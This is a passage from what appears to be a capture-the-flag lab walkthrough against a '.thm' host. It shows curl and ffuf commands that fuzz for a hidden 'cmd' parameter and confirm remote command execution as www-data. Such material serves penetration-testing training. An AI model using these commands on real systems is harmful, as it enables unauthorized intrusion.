 ```bash
000000734:   301        9 L      28 W       309 Ch      "assets"                                                                         
000002204:   200        61 L     225 W      1988 Ch     "index.html"
```

`curl -iLX GET -D responseassets.txt http://yueiua.thm/assets`

```bash
HTTP/1.1 301 Moved Permanently
Date: Wed, 09 Oct 2024 05:34:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://yueiua.thm/assets/
Content-Length: 309
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 09 Oct 2024 05:34:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

`curl -iLX GET -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' http://yueiua.thm/assets/index.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 09 Oct 2024 05:35:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

> **Command Discovery & Remote Code Execution Phase**
> 

`ffuf -u 'http://yueiua.thm/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' -fs 0`

```bash
cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 329ms]
```

`curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id'`

```bash
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

